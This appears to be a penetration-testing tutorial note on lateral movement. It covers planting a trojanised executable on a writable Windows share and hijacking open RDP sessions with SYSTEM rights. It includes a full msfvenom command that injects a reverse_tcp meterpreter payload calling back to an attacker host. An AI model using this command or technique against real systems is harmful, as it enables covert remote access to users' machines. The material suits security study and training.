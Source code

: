 An attacker can take advantage of actions made by the users to gain further access to thier machines.

**Abusing Writable Shares**<br>

the shares files might be writable for some reasons, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines so if we find a **.exe** file we will download it from the share one and use our msfvenom to inject our payload into.
```
msfvenom -a x64 --platform windows -x file.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o FileAfter.exe
```
The resulting FileAfter.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections comming to us.


**RDP hijacking**

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely.
If we have administator level access we should be the SYSTEM level to ***take over any existing RDP session without requiring a password***.










